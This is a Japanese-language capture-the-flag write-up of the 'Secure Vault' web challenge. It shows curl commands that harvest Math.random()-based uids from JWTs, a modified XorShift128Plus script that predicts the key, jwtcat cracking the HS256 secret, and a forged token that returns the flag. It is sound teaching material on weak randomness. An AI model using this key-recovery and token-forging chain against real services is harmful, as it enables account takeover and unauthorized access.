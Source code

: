 # Secure Vault:Web:130pts
Clam saw all those cool celebrities posting everything they do on twitter, so he decided to give it a go himself. Turns out, that's a horrible idea. After recovering from his emotional trauma, he wrote a [secure vault](https://secure-vault.web.actf.co/) to store his deepest secrets. Legend has it that there's even a flag in there. Can you get it?  

[Source](index.js)  

# Solution
サイトとソースが渡される。  
アクセスするとアカウント作成後、文字列を保存できるサイトのようだ。  
Secure Vault  
[site1.png](site/site1.png)  
試しにアカウントを作ってログインすると`put something here!`とある。  
これがデフォルトのようだ。  
[site2.png](site/site2.png)  
cookieにJWT`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4MjUyNTA5MjY1MjQ3MzkiLCJpYXQiOjE2NTE0MDA1NDZ9.79aj7t462YjnsW1eQ35KsX4VS2d_bgCTDiu7Y4gH6uA`がセットされていた。  
[JSON Web Tokens - jwt.io](https://jwt.io/)で中身を見ると以下であった。  
```json
{
  "uid": "0.3825250926524739",
  "iat": 1651400546
}
```
uidが見える。  
次にソースを見ると主要部分は以下のようであった。  
```JavaScript
~~~
const userInfo = {};
const jwtKey = Math.random().toString();

class UserStore {
    constructor() {
        this.users = {};
        this.usernames = {};
    }

    insert(username, password) {
        const uid = Math.random().toString();
        this.users[uid] = {
            username,
            uid,
            password,
            vault: "put something here!",
            restricted: true,
        };
        this.usernames[username] = uid;
        return uid;
    }
~~~
}

~~~
const users = new UserStore();

app.use((req, res, next) => {
    try {
        res.locals.user = jwt.verify(req.cookies.token, jwtKey, {
            algorithms: ["HS256"],
        });
    } catch (err) {
        if (req.cookies.token) {
            res.clearCookie("token");
        }
    }
    next();
});

~~~
app.post("/register", (req, res) => {
    if (
        !req.body.username ||
        !req.body.password ||
        req.body.username.length > 32 ||
        req.body.password.length > 32
    ) {
~~~
    }
    const uid = users.insert(req.body.username, req.body.password);
    res.cookie("token", jwt.sign({ uid }, jwtKey, { algorithm: "HS256" }));
    res.redirect("/");
});

~~~
app.get("/vault", (req, res) => {
    if (!res.locals.user) {
        res.status(401).send("Log in first");
        return;
    }
    const user = users.get(res.locals.user.uid);
    res.type("text/plain").send(user.restricted ? user.vault : flag);
});
~~~
```
JWTでログインを維持しており、`user.restricted`でなければフラグが得られるようだ。  
しかし`HS256`であり、`Math.random().toString()`がkeyのようで、noneや総当たりでの攻撃は難しい。  
ここで、uidも`Math.random().toString()`であり、JWTに含まれていることを思い出す。  
つまりユーザ登録を行うと`Math.random()`の結果を知ることができる。  
`Math.random()`は安全でないことが知られており、[TACIXAT/XorShift128Plus](https://github.com/TACIXAT/XorShift128Plus)などで過去や未来の乱数を計算できる。  
uidより乱数を取得し、過去の乱数を生成することでJWTのkeyを辞書攻撃することを狙う。  
以下のget_uid.shよりuidを取得する。  
```sh
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki1ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki2ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki3ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki4ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki5ooooo&password=ooooo" 2>&1 | grep set-cookie
curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satoki6ooooo&password=ooooo" 2>&1 | grep set-cookie
```
実行する。  
```bash
$ ./get_uid.sh
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjM4NTIyNzQxMTIwMjk0MTQ2IiwiaWF0IjoxNjUxNDAwNzE1fQ.v87ygmvry8degrkSj5KNxbK7NWDfbbSzL_N4QUw_fFs; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjYxMzkyNDY1MzU0MzcyMDgiLCJpYXQiOjE2NTE0MDA3MTZ9.wYmaATGDKeG8YSWGMwzQYSu8lVNri-deA73VO46WCgw; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI2ODA3NTE5NTY0NDEyNTg1IiwiaWF0IjoxNjUxNDAwNzE2fQ.ZrltMhyE-VO12XlQiD8X5i6DRGeyeet7t-yXRmNRCoA; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjIxMTM5NzA0NDE2NTYxNDc4IiwiaWF0IjoxNjUxNDAwNzE3fQ.3TgUijXkqscJxRS-P9VYG36OFgYkOuKumXZNXe5czI8; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjkyMzc0ODQ0NzkxNzA5NyIsImlhdCI6MTY1MTQwMDcxN30.IH0v70ujYvOxQBw0-jwdi_3HIXLmnk0nhQdOvFT3BmU; Path=/
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjI0OTM1MDQxNjMzMTg5NDAzIiwiaWF0IjoxNjUxNDAwNzE4fQ.2zcz1jFttIwqaoCKIjr2UeX0uHhggxCD8wE2Z4B11lY; Path=/
```
それぞれの中身を見るとuidは以下であった。  
```
0.38522741120294146
0.6139246535437208
0.26807519564412585
0.21139704416561478
0.923748447917097
0.24935041633189403
```
これらを設定し、50000個の乱数生成するよう編集したxs128p_uid.pyを実行し、辞書を作成する。  
スクリプトの実装を読んでおらず、適切な編集でないため、一定数以上の未来の乱数生成後に過去の乱数が周期的に表示されていることに注意する。  
193行目を`if browser != 'chrome':`に変更することで逆の振る舞いに調節可能である。  
```bash
$ diff xs128p.py xs128p_uid.py
149,150c149,150
<         0.5368584449767335, 0.883588766746984, 0.7895949638905317,
<         0.5106241305628436, 0.49965622623126693]
---
>         0.38522741120294146, 0.6139246535437208, 0.26807519564412585,
>         0.21139704416561478, 0.923748447917097, 0.24935041633189403]
192c192
<         for idx in range(15):
---
>         for idx in range(50000):
$ python xs128p_uid.py > dict.txt
```
辞書ができたので、新たにアカウントを作成し、そのjwtを[jwtcat](https://github.com/aress31/jwtcat)でクラックする。  
以下のように行う。  
```bash
$ curl -X POST -v https://secure-vault.web.actf.co/register --data "username=satokihack&password=ooooo" 2>&1 | grep set-cookie
< set-cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk; Path=/
$ git clone https://github.com/aress31/jwtcat.git
~~~
$ python jwtcat/jwtcat.py wordlist -w dict.txt "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjg2MTYwNzUzMjgyNDM5NTEiLCJpYXQiOjE2NTE0MDEzNzd9.w-xTyxA1SZfSrJqhZO7IxN8n34kNFdGbOR71eaKzwgk"
2022-05-01 19:37:41,230 Satoki __main__[1298] WARNING For attacking complex JWT, it is best to use compiled, GPU accelerated password crackers such as Hashcat and John the Ripper which offer more advanced techniques such as raw brute forcing, rules-based, and mask attacks.
2022-05-01 19:37:41,230 Satoki __main__[1298] INFO Pour yourself a cup (or two) of ☕ as this operation might take a while depending on the size of your wordlist.
 34%|████████████████████████▌                                                | 50385/149983 [00:02<00:04, 22480.12it/s]
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Private key found: 0.5258726853042994
2022-05-01 19:37:43,598 Satoki __main__[1298] INFO Finished in 2.3682637214660645 sec
```
JWTのkeyが判明したため、[JSON Web Tokens - jwt.io](https://jwt.io/)で書き換えてやる。  
uidについてはユーザが存在しなければ`user.restricted`がfalseとなるので、適当にkeyと同じにしておく。  
![jwtio.png](images/jwtio.png)  
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiIwLjUyNTg3MjY4NTMwNDI5OTQiLCJpYXQiOjE2NTE0MDEzNzd9.AxE6xLl3WD9qbMaUvXKN6e7hDCvvlRC3Pq2wciGw910`が得られたので、設定してアクセスする。  
flag  
[flag.png](site/flag.png)  
flagが得られた。  

## actf{is_this_what_uaf_is}